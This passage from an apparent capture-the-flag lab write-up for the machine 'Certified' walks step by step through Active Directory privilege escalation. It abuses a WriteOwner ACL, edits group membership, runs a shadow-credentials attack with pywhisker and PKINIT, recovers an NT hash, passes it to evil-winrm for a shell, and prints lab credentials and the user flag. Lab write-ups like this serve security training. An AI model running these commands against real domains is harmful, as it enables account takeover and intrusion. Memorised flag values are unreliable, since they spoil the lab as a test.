First, we abuse the WriteOwner ACL to get full control over the management group and add ourselves to that group.

For this, we need to edit the ownership of the management group and set it to our judith.madner user.



So we follow the instructions that we see en the “WriteOwner” / “GenericWr"/ “GenericAll” right menu
```bash
$ owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'
```

```bash
$ dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```


Now we add to de group "management" the user judith.mader.
```bash
$ net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "10.10.11.41"
```


Now we can check if “judith” user is in the management groud
```bash
$ net rpc group members "Management" -U "certified.htb/judith.mader%judith09" -S "10.10.11.41"
```

```bash
$ python pywhisker/pywhisker.py  -d certified.htb -u judith.mader -p judith09 --target management_svc --action add
```


Now as say the last point to get a TGT we need:
```bash
$ git clone https://github.com/dirkjanm/PKINITtools
```


Now we try to use the python file to get a TGT
```bash
$ python3 gettgtpkinit.py
```


```bash
$  python3 gettgtpkinit.py -cert-pfx ../MOmOYrnv.pfx -pfx-pass j8l3Ns88tMFF0dIfthKM certified.htb/management_svc management_svc.ccache
```


### If you have any problem with the clock sync → $ sudo ntpdate certified.htb

As recomend the gettgtpkinit.py we save de AS-REP encryption key → 405836c802faf1b2dbb3c56df215309e00997c7727d38ff5c879ba26a58aa865

Now we try to execute getnthash.py with the pass that we saved in the previous step
```bash
$ python3 getnthash.py -key 405836c802faf1b2dbb3c56df215309e00997c7727d38ff5c879ba26a58aa865 -dc-ip 10.10.11.41 certified.htb/management_svc
```


We try to set the KRB5CCNAME
```bash
$  KRB5CCNAME=management_svc.ccache python3 getnthash.py -key 405836c802faf1b2dbb3c56df215309e00997c7727d38ff5c879ba26a58aa865 -dc-ip 10.10.11.41 certified.htb/management_svc
```


Copy the NT Hash → a091c1832bcdd4677c28b5a6a1295584

We will check if this credentials are valid
```bash
$ netexec smb certified.htb -u 'management_svc' -H a091c1832bcdd4677c28b5a6a1295584
```


We see that the credential is OK, so we try to get a shell with evil-winrm
```bash
$ evil-winrm -i 10.10.11.41 -u 'management_svc' -H a091c1832bcdd4677c28b5a6a1295584
```


We got the shell. As we are in the target machine, we will search the user flag.



```bash
User Flag → e6f1a2dadd06a600853fca66b3075a80
```


[Back](README.md)